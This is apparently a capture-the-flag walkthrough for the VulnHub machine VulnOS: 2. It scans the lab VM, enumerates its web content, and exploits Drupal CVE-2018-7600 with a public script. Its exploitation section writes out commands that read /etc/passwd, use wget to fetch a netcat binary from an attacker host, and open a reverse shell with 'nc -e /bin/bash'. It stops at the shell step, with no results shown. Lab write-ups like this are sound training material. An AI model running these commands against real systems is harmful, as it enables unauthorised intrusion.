









::::::::::::::::::::::: page
# VulnOS: 2 {#vulnos-2 .title}

\

## 

## VulnOS: 2

- **[VulnOS: 2]{style="color:#cdab8f;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/vulnos-2,147/>

- Now extract the file :

::: codebox
    7z e VulnOSv2.7z
:::

- After the file extract then double click on VulnOSv2.vbox .
- Start the machine .

1.  [Network Scanning]{style="color:#986a44;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.31.0/24
:::

- Find available port in the machine :

::: codebox
    nmap -v -p- 192.168.31.50
:::

::: codebox
    nmap -sC -sV -A 192.168.31.50
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.31.50
:::

1.  [Web Enumeration]{style="color:#986a44;"} :

- IP visit in browser : <http://192.168.31.50/>

<!-- -->

- Now run the gobuster for directory brute force :

::: codebox
    feroxbuster --url http://192.168.31.50 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
:::

- Find the url with the parameter :

::: codebox
    http://192.168.31.50/jabc/
:::

- Identify what is the running of this site :

::: codebox
    cmseek -v -u http://192.168.31.50/jabc/
:::

1.  [Exploitation]{style="color:#986a44;"}[ ]{style="color:#e01b24;"} :

- Exploit Script :
  <https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py>

<!-- -->

- Download the script .

1.  Interactive Shell :

::: codebox
    python drupa7-CVE-2018-7600.py http://192.168.31.50/jabc/
:::

1.  Basic Command Execution :

- System Info :

::: codebox
    python drupa7-CVE-2018-7600.py http://192.168.31.50/jabc/ -c uname
:::

::: codebox
    python drupa7-CVE-2018-7600.py http://192.168.31.50/jabc/ -c 'uname -a'
:::

1.  Read Sensitive Files :

::: codebox
    python drupa7-CVE-2018-7600.py http://192.168.31.50/jabc/ -c 'cat /etc/passwd'
:::

1.  Check wget and lscpu Tool Availability :

::: codebox
    python drupa7-CVE-2018-7600.py http://192.168.31.50/jabc/ -c 'wget -h'
:::

1.  

::: codebox
    python drupa7-CVE-2018-7600.py http://192.168.31.50/jabc/ -c 'lscpu'
:::

1.  Download Payload (Netcat) :

- Start HTTP server on attacker machine :

::: codebox
    python3 -m http.server 443
:::

- Download Netcat binary :

::: codebox
    python drupa7-CVE-2018-7600.py http://192.168.31.50/jabc/ -c 'wget http://192.168.31.206:443/nc32 -O /tmp/nc'
:::

1.  Verify Download :

::: codebox
    python drupa7-CVE-2018-7600.py http://192.168.31.50/jabc/ -c 'ls -lh /tmp/nc'
:::

1.  Set Permissions (if needed) :

::: codebox
    python drupa7-CVE-2018-7600.py http://192.168.31.50/jabc/ -c 'chmod +x /tmp/nc'
:::

1.  Listener (Attacker Machine) :

::: codebox
    nc -lvnp 443
:::

1.  Reverse Shell :

::: codebox
    python drupa7-CVE-2018-7600.py http://192.168.31.50/jabc/ --command '/tmp/nc -e /bin/bash 192.168.31.206 443'
:::

- Get the reverse shell :

:::::::::::::::::::::::
